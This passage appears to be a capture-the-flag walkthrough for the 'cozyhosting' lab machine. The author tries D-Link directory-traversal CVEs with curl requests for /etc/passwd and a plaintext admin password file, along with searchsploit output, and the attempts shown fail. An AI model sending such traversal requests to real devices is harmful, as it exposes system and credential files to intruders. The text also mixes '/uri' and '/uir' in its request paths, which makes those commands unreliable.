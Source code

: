 ### Further Recon of Exploits

First, researching CVE-2018-10822, this vulnerability allows for directory traversal in the web interface on D-Link DWR-116 through 1.06, DIR-140L through 1.02, DIR-640L through 1.02, DWR-512 through 2.02, DWR-712 through 2.02, DWR-912 through 2.02, DWR-921 through 2.02, and DWR-111 through 1.01 devices. We can read arbitrary files via a `/..` or `//` after `"GET /uir"` in an HTTP request:

`GET /uri//etc/passwd`

Maybe it worked since it is not returning an error page? There is more to do to see the contents. Let's research the CVE-2018-10824 vulnerability. It appears the administrative password is stored in plaintext in the /tmp/csman/0 file.

`curl -X GET "http://cozyhosting.htb/uri//tmp/csman/0"`

No luck there, further research is needed.

I found a GitHub for a .yaml file relating to CVE-2018-10822. In the code, I noticed the reference to exploit-db exploit #45678.

Using searchsploit we find an exploit to try:

```
-[Wed Feb 28-17:19:34]-[table@parrot]-
-[~]$ searchsploit 45678
-------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
-------------------------------------------------------------------------------------------- ---------------------------------
D-Link Routers - Directory Traversal | hardware/webapps/45678.md
-------------------------------------------------------------------------------------------- ---------------------------------
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcode Title | Path
-------------------------------------------------------------------------------------------- ---------------------------------
Linux/x64 - Bind_tcp (0.0.0.0:4444) + Password (12345678) + Shell (/bin/sh) Shellcode (142 | linux/49472.c
-------------------------------------------------------------------------------------------- ---------------------------------
Papers: No Results
```

From the research, it is interesting to note that the vulnerability can be used to retrieve administrative passwords using the other disclosed vulnerability - CVE-2018-10824.

This vulnerability was reported previously by Patryk Bogdan in CVE-2017-6190 but he reported it is fixed in certain releases but unfortunately, it is still present in even newer releases. The vulnerability is also present in other D-Link routers and can be exploited not only (as the original author stated) by double dot but also using double slash.

Let's try to curl the IP address file location of passwd:

```
-[Wed Feb 28-17:23:50]-[table@parrot]-
-[~]$ curl http://10.10.11.230/uir//etc/passwd
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```
